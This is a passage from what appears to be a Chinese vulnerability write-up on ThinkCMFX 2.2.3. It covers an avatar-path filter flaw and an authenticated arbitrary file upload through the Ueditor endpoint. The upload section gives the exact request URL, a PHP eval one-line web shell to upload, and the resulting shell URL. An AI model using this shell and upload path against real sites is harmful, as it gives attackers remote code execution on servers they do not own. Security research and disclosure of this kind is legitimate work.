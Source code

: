 从文件可以看到 \$imgurl=str\_replace(\'/\',\'\',\$imgurl); 过滤了 /
但是没有过滤 所以我们无法引入 / 并且在更新头像以后还会从前端接收参数
imgurl 带入函数sp\_delete\_avatar 跟进去

路径：ThinkCMFX\\application\\Common\\Common\\function.php
方法：function sp\_delete\_avatar(

![](/Users/aresx/Documents/VulWiki/.resource/THINKCMFX_2.2.3漏洞合集/media/rId43.jpg)

#### 0x04 前台任意上传漏洞

##### 0x04.1 漏洞演示

记得一定要登录! 记得一定要登录! 记得一定要登录!
记得在前台注册一个账号进行登录或是直接登录后台然后在访问此地址

    打开url: http://atest.test/cms/ThinkCMFX_2.2.3/index.php?g=Asset&m=Ueditor&a=upload&action=uploadfile
    POST:
    file = php一句话木马的文件

    1.php
    <?php
    eval($_REQUEST[1]); 
    ?>

![](/Users/aresx/Documents/VulWiki/.resource/THINKCMFX_2.2.3漏洞合集/media/rId46.png)

    shell地址: http://atest.test/cms/ThinkCMFX_2.2.3/data/upload/ueditor/20190724/5d3833dcce7e3.php?1=phpinfo();

![](/Users/aresx/Documents/VulWiki/.resource/THINKCMFX_2.2.3漏洞合集/media/rId47.png)

##### 0x04.2 为什么要登录

路径：ThinkCMFX\\application\\Asset\\Controller\\UeditorController.class.php
方法：public function \_initialize()

![](/Users/aresx/Documents/VulWiki/.resource/THINKCMFX_2.2.3漏洞合集/media/rId49.png)

##### 0x04.3 漏洞原理

路径：ThinkCMFX\\application\\Asset\\Controller\\UeditorController.class.php
方法：public function upload(

![](/Users/aresx/Documents/VulWiki/.resource/THINKCMFX_2.2.3漏洞合集/media/rId51.png)

路径：ThinkCMFX\\application\\Asset\\Controller\\UeditorController.class.php
方法：private function \_ueditor\_upload

![](/Users/aresx/Documents/VulWiki/.resource/THINKCMFX_2.2.3漏洞合集/media/rId52.png)

该方法使用 \$upload\_setting=sp\_get\_upload\_setting();
先获取所有上传的配置

在用 \$allowed\_exts=explode(\',\', \$upload\_setting\[\$filetype\]);
来获取允许上传的后缀
